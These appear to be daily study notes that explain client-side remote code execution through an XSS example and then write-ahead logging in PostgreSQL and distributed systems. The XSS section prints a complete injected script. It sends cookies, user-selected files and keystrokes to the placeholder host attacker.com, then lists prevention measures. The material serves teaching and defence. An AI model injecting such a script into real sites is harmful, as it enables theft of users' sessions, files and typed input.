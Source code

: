day - 1

## Client-Side RCE(Remote Code Execution)

### Definition:

Client-Side Remote Code Execution (RCE) is a security vulnerability that allows an attacker to execute malicious code on a victim's device (browser, mobile app, or client application) by exploiting flaws in client-side software. Unlike server-side RCE, this targets the user's machine directly, potentially giving attackers access to local files, system resources, or personal data.

**Key Characteristics**

- Target: User's device/browser, not the server
- Execution context: Runs with user's privileges
- Attack vector: Malicious websites, downloads, or client applications
- Impact: Can access local files, steal data, install malware

### Example:

- XSS leading to Client-Side RCE
  Vulnerable Website (Forum):

```
<!-- Vulnerable comment system that doesn't sanitize input -->
<div class="comment">
    <!-- Attacker posts this "comment" -->
    <script>
        // Malicious payload executed in victim's browser

        // 1. Steal cookies and session data
        fetch('http://attacker.com/steal', {
            method: 'POST',
            body: 'cookies=' + document.cookie
        });

        // 2. Access local storage
        const userData = localStorage.getItem('userPreferences');

        // 3. Try to access local files (if permissions allow)
        if (window.File && window.FileReader) {
            // Trick user into selecting files
            const input = document.createElement('input');
            input.type = 'file';
            input.onchange = function(e) {
                const file = e.target.files[0];
                const reader = new FileReader();
                reader.onload = function(e) {
                    // Send file contents to attacker
                    fetch('http://attacker.com/files', {
                        method: 'POST',
                        body: e.target.result
                    });
                };
                reader.readAsText(file);
            };
            input.click();
        }

        // 4. Keylogger
        document.addEventListener('keypress', function(e) {
            fetch('http://attacker.com/keys', {
                method: 'POST',
                body: 'key=' + e.key
            });
        });
    </script>
</div>
```

What happens when victim visits:

```
1. Victim visits forum page
2. Malicious script executes in victim's browser
3. Script runs with victim's permissions
4. Attacker gains access to:
   - Cookies and session tokens
   - Local storage data
   - Potentially local files
   - Keystroke logging
```

Prevention:

```
// ✅ Secure practices
// 1. Input sanitization
const sanitized = DOMPurify.sanitize(userInput);

// 2. Content Security Policy
<meta http-equiv="Content-Security-Policy"
      content="default-src 'self'; script-src 'self'">

// 3. Secure Electron config
webPreferences: {
    nodeIntegration: false,
    contextIsolation: true,
    preload: path.join(__dirname, 'preload.js')
}
```

---

day - 2

## Write Ahead Log(WAL)

### Definition:

Write Ahead Log (WAL) is a technique used in distributed systems where all changes are first written to a durable log before being applied to the actual data. This ensures data consistency, enables crash recovery, and helps maintain data integrity across multiple nodes. The key principle is: "log first, then apply changes."

### Example:

- PostgreSQL Database Cluster

```
-- User executes: UPDATE users SET balance = 500 WHERE id = 123;

-- Step 1: WAL entry written to disk FIRST
WAL Record:
{
  "lsn": "0/1B000028",
  "type": "UPDATE",
  "table": "users",
  "old_data": {"id": 123, "balance": 400},
  "new_data": {"id": 123, "balance": 500},
  "transaction_id": "TXN_456"
}

-- Step 2: Only AFTER WAL is on disk, apply to database
-- Step 3: Eventually, WAL gets replicated to standby servers
```

Recovery Process:

```
Primary Server Crashes!

Standby Server:
1. Reads WAL from shared storage
2. Replays all WAL entries since last checkpoint
3. Becomes new primary
4. No data lost! ✓
```

WAL in Distributed Systems:

```
┌─────────────┐    ┌─────────────┐    ┌─────────────┐
│   Client    │    │   Node 1    │    │   Node 2    │
└─────────────┘    └─────────────┘    └─────────────┘
       │                   │                   │
       │ 1. Write Request  │                   │
       ├──────────────────>│                   │
       │                   │ 2. Write to WAL   │
       │                   ├──────────────────>│
       │                   │ 3. WAL Synced     │
       │                   │<──────────────────┤
       │                   │ 4. Apply Changes  │
       │                   │ 5. Apply Changes  │
       │                   ├──────────────────>│
       │ 6. Success        │                   │
       │<──────────────────┤                   │
```

---
